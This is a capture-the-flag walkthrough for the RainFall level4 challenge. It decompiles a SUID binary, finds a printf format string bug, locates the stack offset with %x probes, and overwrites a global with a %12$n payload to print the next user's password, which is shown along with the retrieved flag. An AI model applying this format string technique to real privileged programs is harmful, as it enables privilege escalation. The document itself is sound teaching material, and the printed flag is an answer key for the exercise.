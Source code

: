 # Level 4 Walkthrough

## Who am I?

```bash
level4@RainFall:~$ id
uid=2025(level4) gid=2025(level4) groups=2025(level4),100(users)
```

## Where am I?

```bash
level4@RainFall:~$ ll
total 17
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4*
```

We are in possession of a SUID binary owned by `level5`. Our objective is to exploit this binary to execute a command as `level5` and retrieve the contents of the `.pass` file.

---

## Program Behavior

Running the binary:

```bash
level4@RainFall:~$ ./level4
hello
hello
```

No crash, even when injecting long strings:

```bash
level4@RainFall:~$ python -c "print('A'*200)" | ./level4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

This suggests the program uses `fgets()`, which safely limits input size.

---

## Decompiled Structure (via Ghidra)

```c
// main.c
void main(void) {
    n();
    return;
}

// n.c
void n(void) {
    char buffer[520];
    fgets(buffer, 0x200, stdin);
    p(buffer);
    if (m == 0x1025544) {
        system("/bin/cat /home/user/level5/.pass");
    }
    return;
}

// p.c
void p(char *param) {
    printf(param);
    return;
}
```

The structure is very similar to level3. The main difference is that `printf()` is now called via an intermediate function `p(char *)` instead of directly in the main function.

---

## Format String Vulnerability

Because `printf(param)` is called with user-controlled input and without a format string, it introduces a **format string vulnerability**.

We can attempt to inspect the stack layout with:

```bash
python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level4
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0
```

No sign of `0x41414141` (`AAAA`) appears, so we continue probing:

```bash
python -c 'print "AAAA" + " %x" * 15' | ./level4
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

We find `0x41414141` ("AAAA") at the **12th** stack position. This is exactly the same approach used in level3, where the injected marker allowed us to find the correct offset to use in our `%n` format string attack.

---

## Exploitation Strategy

### Step 1: Find offset on the stack

We inject 10 %x to see where our input lands:

```bash
python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level4
```

No sign of `41414141` yet. We continue:

```bash
python -c 'print "AAAA" + " %x" * 15' | ./level4
```

We observe `41414141` (AAAA) at the **12th** position on the stack. Therefore, we will use `%12$n` to write to the address placed as the 12th argument.

### Step 2: Inject address of m on the stack

From disassembly, we see:

```asm
0x0804848d <+54>:    mov    0x8049810,%eax
0x08048492 <+59>:    cmp    $0x1025544,%eax
```

We confirm that the value compared is stored at memory address `0x08049810`, and the target value is `0x1025544` (16930116 in decimal).

We now test placing this address directly in our input to observe its position:

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08 %x %x %x %x %x %x %x %x %x %x %x %x"' | ./lev
el4
 b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 8049810
```

We observe that `0x08049810` appears at the **12th** position on the stack. As in level3, we must format our payload accordingly, using `%12$n` to target the correct argument.

### Step 3: Craft final payload

To exploit the vulnerability, we needed to:

* Identify the address to overwrite: `0x08049810`, found from disassembly.
* Determine the value to write: `0x1025544` (16930116 in decimal) to satisfy the condition: `if (m == 0x1025544)`.
* Discover that our input appears at the 12th position on the stack, using `%x` probes.
* Confirm that the user input is passed to `printf()` without format validation.

To write the desired value using `%n`, we must ensure that exactly `16930116` characters are printed before reaching `%12$n`. This is accomplished using `%16930112d`, as the first 4 bytes (the address) are already printed.

To understand `%n`, recall this example:

```c
int written = 0;
printf("Hello world!%n", &written);
```

After executing, `written == 12` because 12 characters were printed.

### Step 4: Build and launch the payload

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08 + "%16930112d" + "%12$n"' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
            -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

As seen above, the program directly outputs the contents of the `.pass` file. This is because, upon successful comparison, the function `n()` executes the following instruction:

```c
system("/bin/cat /home/user/level5/.pass");
```

There is no need to maintain input open as in level3, the command is self-contained and prints the result immediately.

Now use the retrieved flag to switch to the next user:

```bash
level4@RainFall:~$ su level5
Password:
```

Once logged in, we confirm access:

```bash
level5@RainFall:~$ id
uid=2026(level5) gid=2026(level5) groups=2026(level5)
```

Success.

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)